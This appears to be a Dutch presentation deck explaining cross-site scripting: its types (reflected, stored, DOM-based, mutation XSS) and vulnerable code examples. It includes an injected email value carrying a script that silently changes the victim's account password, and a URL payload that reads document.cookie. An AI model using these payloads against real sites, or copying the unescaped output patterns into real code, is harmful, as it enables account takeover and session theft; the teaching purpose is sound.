 !SLIDE image
# Werking #

![rendering](rendering.jpg)

    @@@php
    <i><?php print $email ?></i>

!SLIDE code

    @@@html
    ber@berk.es</i><script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/account", true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("password=compromised");
    </script><i>

!SLIDE bullets incremental
# Werking #

* Injecteer scripts of andere ongewenste content.

!SLIDE center
<iframe width="960" height="720" src="//www.youtube.com/embed/dQw4w9WgXcQ?autoplay=0" frameborder="0" allowfullscreen></iframe>

!SLIDE bullets incremental
# Soorten #

* Reflected, None-persistent XSS
* Stored, Persistent XSS
* DOM based XSS
* mXSS of mutation XSS

!SLIDE
# Reflected #

    @@@ruby
    "Please check the confirmation at %{email}"

!SLIDE
# Stored #

    @@@ruby
    msg = "Users with changed emails:<br>"
    User.updated(2.days.ago).each do |user|
      msg += "* %{user.email}<br>"
    end

!SLIDE
# DOM based #

    @@@HTML
    <select><script>
    document.write("<OPTION value=1>"
      +document.location.href.substring(
        document.location.href.indexOf("default=")
      +8)+"</OPTION>");
    document.write("<OPTION value=2>English</OPTION>");
    </script></select>

Normaal aangeroepen met: `http://www.some.site/page.html?default=French`

Nu aangeroepen met: `http://www.some.site/page.html?default=<script>alert(document.cookie)</script>`

!SLIDE image
# mXSS mutation XSS #
![Einde der tijden](laatste_oordeel.jpg)

* Gebruikt innerHTML om ge-escapete code te ont-escapen.
* Alle Browserbouwers gingen al de mist in.
* Extra voorzichtig met WYSIWYG-editors, SVG, MathML en CDATA.
